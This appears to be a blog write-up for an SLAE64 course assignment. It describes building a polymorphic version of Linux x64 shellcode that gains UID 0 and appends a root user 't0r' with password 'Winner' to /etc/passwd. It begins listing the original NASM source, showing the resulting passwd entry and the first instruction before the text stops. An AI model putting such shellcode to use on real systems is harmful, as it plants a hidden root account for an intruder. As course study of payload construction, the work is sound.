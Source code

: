 ```yaml
---
title: SLAE64 Assignment 6 - Polymorphic SetUID 0 & Add Root User
date: 2020-4-26
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)

# Overview
For the sixth assignment of the SLAE64, I created three polymorphic payloads from shellcodes on shellstorm and the exploit db. This is the second payload, add user `'t0r' with password 'Winner'.

This shellcode did not work when attempting to compile. Diving into the shellcode it looks like the x86 calling convention was used, which obviously caused major problems with the program execution. There was also a stack method used for the strings. Being that this is a "polymorphic" version of the original shellcode, I opted to use the `jmp-call-pop` method to get the address of the strings. I also made various other modifications.

The Original Shellcode was `189 bytes`.  
This polymorphic version of the shellcode is `123 bytes`.  

## Original Shellcode
Before posting this shellcode here, I did clean it up.   
The original shellcode can be found here: http://shell-storm.org/shellcode/files/shellcode-801.php
```nasm
;sc_adduser01.S
;Arch:          x86_64, Linux
;Author:        0_o -- null_null
;           nu11.nu11 [at] yahoo.com
;Date:          2012-03-05
;Purpose:       adds user "t0r" with password "Winner" to /etc/passwd
;executed syscalls:     setreuid, setregid, open, write, close, exit
;Result:        t0r:3UgT5tXKUkUFg:0:0::/root:/bin/bash
;syscall op codes:  /usr/include/x86_64-linux-gnu/asm/unistd_64.h
BITS 64
[SECTION .text]
global _start
_start:
;sys_setreuid(uint ruid, uint euid)
xor rax, rax
```